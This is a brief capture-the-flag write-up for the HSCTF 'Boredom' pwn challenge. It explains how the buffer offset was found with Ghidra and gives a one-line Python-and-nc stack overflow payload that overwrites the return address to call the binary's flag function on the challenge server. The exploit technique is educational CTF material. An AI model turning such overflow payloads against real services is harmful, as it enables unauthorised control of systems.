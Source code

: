 # Boredom

Keith is bored and stuck at home. Give him some things to do.

Connect at nc pwn.hsctf.com 5002.

Note, if you're having trouble getting it to work remotely:

check your offset, the offset is slightly different on the remote server
the addresses are still the same

## Solution

Disassembled with ghidra the bin file and checked that the buffer was 216 locally (208 on server). We tested that if you put 220 "a" the program try to call a function at the address: "0x7f0061616161"
So i just used the command

```
python -c "print'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\xd5\x11\x40\x00\x00\x00\x00\x00'" | nc pwn.hsctf.com 5002
```
To trigger it + make it run the function flag (address 0x04011d5) to theg the flag.txt from the server
